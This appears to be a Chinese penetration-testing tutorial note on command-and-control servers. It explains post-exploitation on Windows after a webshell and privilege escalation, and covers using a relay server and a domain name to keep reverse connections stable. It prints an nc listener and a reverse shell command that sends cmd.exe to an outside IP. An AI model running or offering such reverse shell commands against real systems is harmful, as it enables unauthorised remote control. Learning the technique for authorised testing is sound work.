 



# C&C 服务器 Command and Control Server

命令和控制服务器

- 通常在做渗透测试的时候，在拿到一个 webshell 的时候，需要对服务器进行提权操作
- 如果是一台 windows 的服务器，提权的时候通常是利用本地提权漏洞的 exp 进行溢出提权，有些 exp 可以直接在后面加参数，溢出成功之后执行参数中的命令，而有的 exp 溢出成功之后是返回一个 system 权限的 cmd，这时就需要将低权限的 cmd shell 反弹回本地，



在本地执行:

```bash
# 这里使用 nc 在本地执行：
nc -vv -lp 3333
# 在本地监听一个 3333 端口等待连接，
# 假设你的电脑 IP 是公网 114.114.114.114，


# 然后在目标服务器就可以执行：
nc 114.114.114.114 3333 -e cmd.exe
# 上面的命令就可以把远程服务器的服务器权限的 cmd shell 返回到本地，
# 通过 nc 建立的这个 shell 进行通信，发送你要执行的命令，在远程服务器接收到命令之后执行并将结果返回给你，
# 这时你的本机电脑就是一个简易的 C&C 服务器
```

![Screen Shot 2020-12-02 at 02.17.42](https://i.loli.net/2020/12/02/SpczfnQ68NFYmZd.png)


本机电脑是在内网中，没有公网 IP，目标服务器也在内网，这时目标不能直接通过 IP 地址连接到你本机:

```bash
# 必须有一个公网的 IP，只有这样内网的服务器才可以访问进行连接，所以可以使用一台中转服务器，
# 中转服务器公网 IP 111.111.111.111
# 不管是目标服务器还是本机都可以访问这台中转服务器，这里中转服务器的作用就是将本地内网的主机监听的端口映射到公网 IP 的某个端口，这样目标机访问中转服务器监听的端口就相当于访问了本地监听的端口。
```

![Screen Shot 2020-12-02 at 02.22.41](https://i.loli.net/2020/12/02/KPkXMCvoUD9qgHO.png)


由于 IP 地址是随着中转服务器的变化而变化的，每次 IP 的 变化都会导致整个过程都要重新操作一次，每个命令语句都要进行修改


解决这个问题: 域名
将上面语句中的 IP 地址修改为注册的域名，然后将域名解析到的中转服务器，这样即使更换了中转服务器，也不需要更改执行过的命令。



.
